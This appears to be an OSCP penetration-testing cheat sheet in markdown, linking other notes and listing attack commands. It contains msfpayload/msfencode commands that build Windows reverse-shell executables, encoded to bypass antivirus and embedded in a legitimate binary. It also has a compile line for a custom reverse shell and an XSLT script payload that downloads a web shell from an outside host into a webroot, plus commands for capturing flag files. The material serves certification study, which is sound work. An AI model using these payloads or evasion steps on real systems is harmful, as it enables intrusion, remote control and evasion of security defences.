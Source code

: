 ## Information-Gathering-Vulnerability-Scanning

https://github.com/emre-uzun/oscp/blob/master/Information-Gathering-Vulnerability-Scanning/Useful-command.md

***

## Shell:

https://github.com/emre-uzun/oscp/blob/master/Shell/Generating-Reverse-Shell.md

***

## Exploitation

https://github.com/emre-uzun/oscp/blob/master/Exploitation/useful-command.md

***

## PRIVILAGE ESCALATION

https://github.com/emre-uzun/oscp/tree/master/privilage-escalation


## ANTIVIRUS BYPASS

Normal exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 X > ~/Desktop/shell_reverse.exe
```

MSF Encoded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -o ~/Desktop/shell_reverse_msf_encoded.exe
```

MSF Encoded Embedded Exploit

```
msfpayload windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 R | msfencode -e x86/shikata_ga_nai -t exe -c 9 -x /usr/share/windows-binaries/plink.exe -o ~/Desktop/shell_reverse_msf_encoded_embedded.exe
```

Custom Tool:

```
i586-mingw32msvc-gcc reverse.c -o ~/Desktop/custom-reverse.exe -lws2_32
```
### XXE
```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">
<msxsl:script language="C#" implements-prefix="user">
<![CDATA[
public string xml()
{
    System.Net.WebClient webClient = new System.Net.WebClient();
    webClient.DownloadFile("https://x.x.x.x/shell.aspx",
                       @"c:\inetpub\wwwroot\shell.aspx");

    return "Exploit Success";
}
]]>
</msxsl:script>
<xsl:template match="/">
<xsl:value-of select="user:xml()"/>
</xsl:template>
</xsl:stylesheet>
```

## FLAG & CAPTURE

```
whoami
ipconfig/ifconfig
type C:\"Documents and Settings"\Administrator\Desktop\proof.txt
cat /root/proof.txt
id
dir C:\ /s/b | find /i “proof.txt”
cat `find / -name proof.txt -print`
